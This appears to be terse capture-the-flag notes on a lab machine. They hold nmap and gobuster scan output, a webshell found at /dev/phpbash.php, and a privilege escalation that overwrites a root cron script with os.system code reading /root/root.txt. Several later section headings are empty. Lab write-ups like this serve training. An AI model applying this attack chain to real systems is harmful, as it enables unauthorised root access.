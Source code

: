 **IPv4: 10.10.10.68**
10.129.234.64
## Enumeration/Scanning
sudo nmap -sV -sC -O -v -Pn $IP

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

sudo gobuster dir -u http://10.129.234.64 -w /usr/share/wordlists/dirb/common.txt
/css                  (Status: 301) [Size: 312] [--> http://10.129.234.64/css/]
/dev                  (Status: 301) [Size: 312] [--> http://10.129.234.64/dev/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.234.64/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.234.64/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 311] [--> http://10.129.234.64/js/]
/php                  (Status: 301) [Size: 312] [--> http://10.129.234.64/php/]
/server-status        (Status: 403) [Size: 301]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.234.64/uploads/]

/dev/phpbash.php

webshell

got user flag

sudo -l

can run as scripmanager

sudo -u scriptmanager ls -la /scripts

root is running test.py every minute

sudo -u scriptmanager chmod 777 -R /scripts

echo "import os" > test.py
echo 'os.system("cat /root/root.txt > /tmp/flag.txt")' >> test.py

## Exploitation


## Privilege Escalation


## Post-exploitation
